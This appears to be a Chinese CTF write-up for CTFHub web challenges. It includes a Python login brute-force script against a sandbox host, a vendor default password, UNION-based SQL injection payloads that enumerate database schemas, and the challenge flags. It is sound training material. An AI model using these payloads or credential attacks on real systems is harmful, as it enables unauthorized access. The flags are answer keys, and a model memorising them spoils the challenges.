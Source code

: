 flag: `ctfhub{9a264f20c5f7724a0b509f9e}`

### 密码口令 - 弱口令

跑了一下 top100 的密码本没跑出来，网上查了一下密码是 `admin888`。。。浓厚的老中味道

```python
import requests
import typing

wordlist_url = "https://raw.githubusercontent.com/kkrypt0nn/wordlists/refs/heads/main/wordlists/passwords/top_adobe_passwords.txt"

wordlist: typing.List[str] = [
    _ for _ in requests.get(wordlist_url).text.split("\n") if _ is not ''
]

for mpass in wordlist:
    if mpass == '': continue
    print(f"Trying: {mpass}")
    resp = requests.post(
        "http://challenge-cd89dd0061a2c67c.sandbox.ctfhub.com:10800/",
        data={
            'name': 'admin',
            'password': mpass
        }
    )
    if "user or password is wrong" not in resp.text:
        print(resp.headers)
        print(resp.text)
        break
```

flag: `ctfhub{605839de08da6a3d58c873de}`

###  密码口令 - 默认密码

😅网上找默认密码：`eyougw:admin@(eyou)`

flag: `ctfhub{690a50ae1d710046a37bbfa5}`

### SQL 注入 - 整数型注入

查询有哪些数据库：
```
-1 union select group_concat(schema_name), 2 from information_schema.schemata
```

查询 `sqli` 数据库下有哪些表：
```
-1 union select group_concat(table_name), 2 from information_schema.tables where table_schema = 'sqli'
```

查询 `sqli` 数据库下 flag 表中有哪些字段：
```
-1 union select group_concat(column_name), 2 from information_schema.columns where table_schema = 'sqli' and table_name = 'flag'
```
